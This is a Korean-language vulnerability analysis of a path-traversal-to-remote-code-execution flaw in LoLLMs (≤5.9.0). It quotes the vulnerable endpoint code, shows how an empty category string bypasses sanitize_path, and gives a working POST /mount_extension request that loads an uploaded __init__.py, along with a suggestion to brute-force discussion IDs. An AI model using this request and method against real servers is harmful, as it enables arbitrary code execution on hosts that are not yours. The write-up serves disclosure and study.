

## URL

https://blog.huntr.com/critical-path-traversal-flaw-leads-to-remote-code-execution-in-parisneo/lollms

## Target

- LoLLMs <= 5.9.0

## Explain

LoLLMs(Lord of Large Language Models Server)는 500개의 언어 모델을 기반으로 텍스트를 생성하는 서버로 Path Traversal로 인한 RCE 취약점이 발견되었습니다.

취약점은 사용자 입력 값에 대한 검증이 미흡해 Path Traversal 발생하고 이를 통해 RCE가 가능합니다.

```
# lollms_core\\lollms\\server\\endpoints\\lollms_personalities_infos.py
# ... more code
@router.post("/get_personality_config")
def get_personality_config(data:PersonalityDataRequest):
	print("- Recovering personality config")
	category = sanitize_path(data.category) # [1]
	name = sanitize_path(data.name) # [2]
  package_path = f"{category}/{name}" # [3]
	if category=="custom_personalities":
		# ...
	else:
	 package_full_path = lollmsElfServer.lollms_paths.personalities_zoo_path/package_path # [4]
	 config_file = package_full_path / "config.yaml"
	 if config_file.exists():
		 with open(config_file,"r") as f:
			 config = yaml.safe_load(f)
		 return {"status":True, "config":config}
 # ...

```

`/get_personality_config` 앤드포인트 [1][2]번에서 data.category와 data.name 값이 사용됩니다.

이 값들은 파일 경로를 만들 때 사용되며, 사용자가 제어할 수 있습니다.


```
def sanitize_path(
	path:str, 
	allow_absolute_path:bool=False, 
	error_text="Absolute database path detected", 
	exception_text ="Detected an attempt of path traversal. Are you kidding me?"
):
	 if path is None:
		 return path

 # Regular expression to detect patterns like "...." and multiple forward slashes
 suspicious_patterns = re.compile(r'(\\.\\.+)|(/+/)')

 if suspicious_patterns.search(str(path)) or ((not allow_absolute_path) and Path(path).is_absolute()):
	 ASCIIColors.error(error_text)
	 raise HTTPException(status_code=400, detail=exception_text)

 if not allow_absolute_path:
	 path = path.lstrip('/')

 return path

```

`sanitize_path` 함수는 `../` , `/` , `\\` 와 같은 특수 문자를 필터링하여 Path Traversal 공격을 방지합니다. 하지만, 빈 문자열에 대한 검증이 부족하여 Path Traversal 취약점이 발생하게 됩니다.


```
>>> category = ""
>>> name = "tmp/hacked"
>>> package_path = f"{category}/{name}"
>>> package_path
'/tmp/hacked'
>>> package_full_path = Path("/home/user/public/")/package_path
>>> package_full_path
PosixPath('/tmp/hacked')

```

공격자가 `data.category`에 빈 문자열을, `data.name`에 특정 경로("tmp/hacked")를 입력하면,  `package_path`는 절대 경로로 설정됩니다.

이후 경로가 결합될 때 `package_path`가 절대 경로이므로 앞의 경로("/home/user/public/")는 무시되고, 공격자가 의도한 경로로 접근하게 되어 Path Traversal 취약점을 트리거 할 수 있습니다.

```
# lollms_core\\lollms\\server\\endpoints\\lollms_extensions_infos.py
# ... more code
@router.post("/mount_extension")
def mount_extension(data:ExtensionMountingInfos):
 print("- Mounting extension")
 
 category = sanitize_path(data.category)
 name = sanitize_path(data.folder)
 
 package_path = f"{category}/{name}"
 package_full_path = lollmsElfServer.lollms_paths.extensions_zoo_path/package_path
 
 config_file = package_full_path / "config.yaml" # [5]
 
 if config_file.exists():
	 lollmsElfServer.config["extensions"].append(package_path) # [6]
	 lollmsElfServer.mounted_extensions = lollmsElfServer.rebuild_extensions() # [7]
 # ...

```

CVE-2024-4320 취약점은 `/install_extension` 엔드포인트로 호출되는 `ExtensionBuilder().build_extension()` 함수를 통해 RCE가 발생했습니다.

`/install_extension` 엔드포인트는 패치되었지만, `/mount_extension` 엔드포인트를 통해 여전히`ExtensionBuilder().build_extension()` 함수를 호출할 수 있습니다.

앞서, `package_full_path`의 값을 사용자가 제어하여 원하는 경로로 설정할 수 있습니다. 

[5]번에서, 해당 경로에 `config.yaml` 파일이 존재하는지 확인하고, 파일이 존재하면`package_full_path`가 `lollmsElfServer.config["extensions"]`에 추가됩니다. 

이후 [7]번에서 `lollmsElfServer.rebuild_extensions()` 함수가 아래와 같이 실행됩니다.


```

# lollms_webui.py
# ... more code
class LOLLMSWebUI(LOLLMSElfServer):
    def rebuild_extensions(self, reload_all=False):
        # ...
        for i, extension in enumerate(self.config['extensions']):
            # ...
            if extension in loaded_names:
                # ...
            else:
                extension_path = self.lollms_paths.extensions_zoo_path / f"{extension}"
                try:
                    extension = ExtensionBuilder().build_extension(extension_path, self.lollms_paths, self)
                # ...

```

[5]번에서 추가된 경로를 포함한 모든 `extension_path`를 반복하면서, `ExtensionBuilder().build_extension()` 함수를 통해 이를 로드하게 됩니다.


```
# lollms_core\lollms\extension.py
# ... more code
class ExtensionBuilder:
    def build_extension(
        self,
        extension_path: str,
        lollms_paths: LollmsPaths,
        app,
        installation_option: InstallOption = InstallOption.INSTALL_IF_NECESSARY
    ) -> LOLLMS_Extension:
        extension, script_path = self.getExtension(extension_path, lollms_paths, app)  # [8]
        return extension(app=app, installation_option=installation_option)

    def getExtension(
        self,
        extension_path: str,
        lollms_paths: LollmsPaths,
        app
    ) -> LOLLMS_Extension:
        extension_path = lollms_paths.extensions_zoo_path / extension_path
        # 모듈의 전체 절대 경로 정의
        absolute_path = extension_path.resolve()
        # 파일 경로에서 모듈 이름 추출
        module_name = extension_path.stem
        # importlib을 사용해 파일 경로에서 모듈 로드
        loader = importlib.machinery.SourceFileLoader(module_name, str(absolute_path / "__init__.py"))  # [9]
        extension_module = loader.load_module()
        extension: LOLLMS_Extension = getattr(extension_module, extension_module.extension_name)
        return extension, absolute_path

```

`ExtensionBuilder().build_extension()` 함수가 실행되면, [8]번에서 `ExtensionBuilder().getExtension()` 함수가 호출됩니다. 이때 `extension_path`는 공격자 절대 경로 값을 사용해, `absolute_path` 변수의 값을 제어할 수 있습니다. 

이후, [9]번에서 `ExtensionBuilder().getExtension()` 함수를 통해 공격자가 지정한 절대 경로에서 `__init__.py` 파일을 찾아 코드를 실행합니다.


취약점을 트리거 하기 위해 먼저 임의의 대화를 생성해야 합니다.

이후, `config.yaml`과 `__init__.py` 파일을 "Send file to AI" 기능을 통해 서버에 업로드합니다.


```
POST /mount_extension HTTP/1.1
Host: localhost:1337
Content-Type: application/json
Content-Length: 177
{
 "category": "",
 "folder": "/path/to/personal_data/discussion_databases/default/<discussion_id>/text_data",
 "client_id": "jg9yock1FmRZdONsAAAH",
 "language": "vi"
}

```

업로드된 `config.yaml`과 `__init__.py` 파일의 경로를 지정하여 요청을 보내면, `__init__.py` 파일 코드가 실행됩니다.

요청을 보낼 때, `discussion_id`값이 필요하지만 정수값이므로 brute-force 공격으로 쉽게 구할 수 있습니다.




`__init__.py` 파일 내에서 calc.exe 코드가 실행된 것을 확인할 수 있습니다. 따라서 공격자는 임의의 명령어를 실행시킬 수 있습니다.

해당 취약점은 `lollms_extensions_infos.py` 파일을 삭제하여 패치되었습니다.


## Reference

- https://github.com/parisneo/lollms/commit/2d0c4e76be93195836ecd0948027e791b8a2626f#diff-a439c41fae59a1b420f981f6a87c9ce17432a89dbc6165c89002894a52fdec1e